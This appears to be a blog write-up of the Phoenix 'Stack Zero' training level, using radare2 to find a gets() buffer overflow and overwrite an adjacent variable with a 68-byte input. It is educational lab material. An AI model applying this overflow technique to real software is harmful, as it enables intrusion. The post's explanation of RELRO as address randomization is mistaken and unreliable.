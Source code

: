 ```yaml
---
layout: post
title:  "Phoenix Stack Zero"
categories: exploit-education phoenix
---
```

Phoenix is a virtual machine that can be obtained from [exploit.education][exploit-education]. It provides an educational environment so that one can practice on their skills. For additional details, visit the website.

In case of reluctancy due to the risk of downloading an unknown virtual machine, Debian packages are also provided.

Stack Zero, which is the first level, introduces the legendary stack-based buffer overflow.

In order to get a glimpse of what the binary is all about, [rabin2][rabin2-docs] comes to the rescue:

{% highlight shell %}
$ rabin2 -I /opt/phoenix/i486/stack-zero
arch     x86
baddr    0x8048000
binsz    3394
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (GNU) 7.3.0
crypto   false
endian   little
havecode true
intrp    /opt/phoenix/i486-linux-musl/lib/ld-musl-i386.so.1
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   true
relro    no
rpath    /opt/phoenix/i486-linux-musl/lib
sanitiz  false
static   false
stripped false
subsys   linux
va       true
{% endhighlight %}

What can be gathered from the above info are the following:
* The binary is a 32-bit Linux ELF (`arch x86`, `bintype elf`, `bits 32`, `class ELF32`, `os linux`..).
* The endianness is little (`endian little`).
* It wasn't compiled with the Stack Smashing Protector (SSP) compiler feature (`canary false`), thus allowing stack-based buffer overflow.
* It wasn't compiled with the Data Execution Prevention (DEP) or No-Execute (NX) compiler feature (`nx false`), which cannot prevent shellcode execution.
* It wasn't compiled with the RELocation Read-Only compiler feature (`relro no`), which means that the binary and all of its dependencies are not loaded into randomized locations within virtual memory each time it is executed. This feature hinders Return Oriented Programming a lot.

Considering the above information, if the binary accepts input via environment variables, arguments or STDIN, it can be exploited.

To open the binary, `r2` can be used.

{% highlight shell %}
$ r2 /opt/phoenix/i486/stack-zero
> aas
{% endhighlight %}

It is not recommended to use `aaa` or `-A` as an argument when opening a binary, because it could take a really long time if that binary is big. Using radare2, one needs to know what analysis is more beneficial at every stage of reverse engineering a binary. In this particular case, `aas`, which uses binary header information to find public functions, is good enough.

{% highlight nasm %}
> afl
0x080482b4    1 17           sym._init
0x08048470    7 277  -> 112  sym.frame_dummy
0x08048520    5 49           sym.__do_global_ctors_aux
0x08048551    1 12           sym._fini
0x080483f0    8 113  -> 111  sym.__do_global_dtors_aux
0x08048114   46 498  -> 594  sym..interp
0x08048320    1 62           entry0
0x08048310    1 6            sym.imp.__libc_start_main
0x08048630    3 62           loc.__GNU_EH_FRAME_HDR
0x08048688    1 41           obj.__EH_FRAME_BEGIN
0x08048360    4 49   -> 40   sym.deregister_tm_clones
0x080484b5    4 106          main
0x080482f0    1 6            sym.imp.puts
{% endhighlight %}

There are a couple options available to view the disassembly at a particular address. One that can be used is `s` to seek to that address and then use `pdf` to disassemble the current function, or `VV` to use the Visual Graph.

{% highlight nasm %}
> s main
> pdf
/ (fcn) main 106
|   int main (int argc, char **argv, char **envp);
|           ; var int32_t var_4ch @ ebp-0x4c
|           ; var int32_t var_ch @ ebp-0xc
|           ; arg int32_t arg_4h @ esp+0x4
|           ; DATA XREF from entry0 @ 0x8048354
|           0x080484b5      8d4c2404       lea ecx, [arg_4h]
|           0x080484b9      83e4f0         and esp, 0xfffffff0
|           0x080484bc      ff71fc         push dword [ecx - 4]
|           0x080484bf      55             push ebp
|           0x080484c0      89e5           mov ebp, esp
|           0x080484c2      51             push ecx
|           0x080484c3      83ec54         sub esp, 0x54
|           0x080484c6      83ec0c         sub esp, 0xc
|           0x080484c9      6860850408     push str.Welcome_to_phoenix_stack_zero__brought_to_you_by_https:__exploit.education ; sym..rodata
|                                                                      ; 0x8048560 ; "Welcome to phoenix/stack-zero, brought to you by https://exploit.education"
|           0x080484ce      e81dfeffff     call sym.imp.puts           ; int puts(const char *s)
|           0x080484d3      83c410         add esp, 0x10
|           0x080484d6      c745f4000000.  mov dword [var_ch], 0
|           0x080484dd      83ec0c         sub esp, 0xc
|           0x080484e0      8d45b4         lea eax, [var_4ch]
|           0x080484e3      50             push eax
|           0x080484e4      e8f7fdffff     call sym.imp.gets           ; sym..interp+0x1cc
|           0x080484e9      83c410         add esp, 0x10
|           0x080484ec      8b45f4         mov eax, dword [var_ch]
|           0x080484ef      85c0           test eax, eax
|       ,=< 0x080484f1      7412           je 0x8048505
|       |   0x080484f3      83ec0c         sub esp, 0xc
|       |   0x080484f6      68ac850408     push str.Well_done__the__changeme__variable_has_been_changed ; 0x80485ac ; "Well done, the 'changeme' variable has been changed!"
|       |   0x080484fb      e8f0fdffff     call sym.imp.puts           ; int puts(const char *s)
|       |   0x08048500      83c410         add esp, 0x10
|      ,==< 0x08048503      eb10           jmp 0x8048515
|      |`-> 0x08048505      83ec0c         sub esp, 0xc
|      |    0x08048508      68e4850408     push str.Uh_oh___changeme__has_not_yet_been_changed._Would_you_like_to_try_again ; 0x80485e4 ; "Uh oh, 'changeme' has not yet been changed. Would you like to try again?"
|      |    0x0804850d      e8defdffff     call sym.imp.puts           ; int puts(const char *s)
|      |    0x08048512      83c410         add esp, 0x10
|      |    ; CODE XREF from main @ 0x8048503
|      `--> 0x08048515      83ec0c         sub esp, 0xc
|           0x08048518      6a00           push 0
\           0x0804851a      e8e1fdffff     call sym.imp.exit           ; sym..interp+0x1ec
{% endhighlight %}

There are a few things that can be seen from the disassembled main function:
1. There are two local variables:
    * `var_4ch`, which is the buffer where the input from STDIN is saved at and it has a size of `0x4c-0xc=0x40` (64 bytes in decimal).
    * `var_ch`, which is a 32-bit integer.
1. There is a call to `gets` with `var_4ch` as an argument at `0x080484e4`. `gets` does not restrict the size of bytes that are to be read and is, thus, vulnerable to stack-based buffer overflow.
1. The objective is to change the value of `var_ch`, which is tested at address `0x080484ef`.

With that in mind, to exploit this the input must have a size of, at least, 65 bytes (64 is the size of the buffer and to overwrite the value of `var_ch` one more byte at minimum is needed).

Before opening the binary in debugger mode using radare2, a rarun2 profile is needed so that the input can be read from the binary. In order to do that, a file needs to be created with the following contents:

{% highlight shell %}
#!/usr/bin/env rarun2
stdio=/dev/pts/0    # Replace `/dev/pts/0` with the output of the command `tty`.
stdin=./pattern     # Replace `./pattern` with the full path to the file that
                    # contains the input to be read from the binary.
{% endhighlight %}

One more thing that is essential is a file that contains the input. For that, python3 is going to be used.

{% highlight python %}
#!/usr/bin/env python3
print("X"*64+"AAAA")
{% endhighlight %}

{% highlight shell %}
$ ./myScript.py > pattern
{% endhighlight %}

Now, the binary can be debugged as follows:

{% highlight shell %}
$ r2 -d /opt/phoenix/i486/stack-zero -e dbg.profile=myProfile.rr2
{% endhighlight %}

To showcase that the binary is indeed vulnerable, a breakpoint before the call to `gets` is necessary. That can be done by simply executing `db` followed by the address and then `dc` to continue until the breakpoint is hit.

{% highlight plaintext %}
> aas
> db 0x080484e4
> dc
{% endhighlight %}

Before calling `gets`, it is a good idea to check the value of `var_ch`. This can be accomplished by first checking the value of the `ebp` register, via `dr`, and then viewing the hexdump at address `ebp-0xc`, via `px/xw`.

{% highlight nasm %}
> dr
eax = 0xff8c805c
ebx = 0xf7f14000
ecx = 0xff8c7f90
edx = 0x00000000
esi = 0xff8c8134
edi = 0x00000001
esp = 0xff8c8040
ebp = 0xff8c80a8
eip = 0x080484e4
eflags = 0x00000296
oeax = 0xffffffff
> px/xw 0xff8c80a8-0xc
0xff8c809c  0x00000000                                   ....
{% endhighlight %}

To execute the next instruction by stepping over, simply use `dso`.

{% highlight nasm %}
> dso
> dr
eax = 0xff8c805c
ebx = 0xf7f14000
ecx = 0xfefeff09
edx = 0x80808000
esi = 0xff8c8134
edi = 0x00000001
esp = 0xff8c8040
ebp = 0xff8c80a8
eip = 0x080484e9
eflags = 0x00000286
oeax = 0xffffffff
> px/24xw 0xff8c8040
0xff8c8040  0xff8c805c 0x00000000 0x0000006f 0x00000010  \.......o.......
0xff8c8050  0x080482b4 0x08048551 0x00000000 0x58585858  ....Q.......XXXX
0xff8c8060  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xff8c8070  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xff8c8080  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xff8c8090  0x58585858 0x58585858 0x58585858 0x41414141  XXXXXXXXXXXXAAAA
> px/xw 0xff8c80a8-0xc
0xff8c809c  0x41414141                                   AAAA
{% endhighlight %}

As shown above, the value of `var_ch` is indeed overwritten.

{% highlight plaintext %}
> dc
Well done, the 'changeme' variable has been changed!
{% endhighlight %}

## Conclusion
The binary was not compiled with the necessary features that would otherwise prevent stack-based buffer overflows and contains a call to `gets`, which does not account the size of bytes to be read from STDIN. As such, one needs to account the size of the buffer and simply input more bytes than it can actually hold so that the stack overflows.

[exploit-education]: https://exploit.education/downloads/
[rabin2-docs]: https://r2wiki.readthedocs.io/en/latest/tools/rabin2/
